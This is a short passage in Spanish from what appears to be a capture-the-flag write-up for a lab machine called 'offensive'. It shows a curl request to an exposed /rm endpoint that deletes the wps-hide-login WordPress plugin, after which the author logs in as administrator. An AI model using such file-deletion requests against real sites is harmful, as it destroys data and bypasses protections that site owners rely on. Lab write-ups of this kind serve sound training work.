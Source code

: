 ![](assets/img/thl-writeup-offensive/offensive1_6.png)

Entre los plugins, identifico que `wps-hide-login` es el que impide el acceso al formulario de inicio de sesión, para solucionarlo, lo elimino.

```terminal
/home/kali/Documents/thl/offensive:-$ curl -s http://offensive.thl:8080/rm\?path\=wordpress/wp-content/plugins/wps-hide-login | jq
{
  "message": "File or directory deleted successfully."
}
```

Con esta acción, ya puedo acceder al formulario e iniciar sesión como el usuario `administrator`.
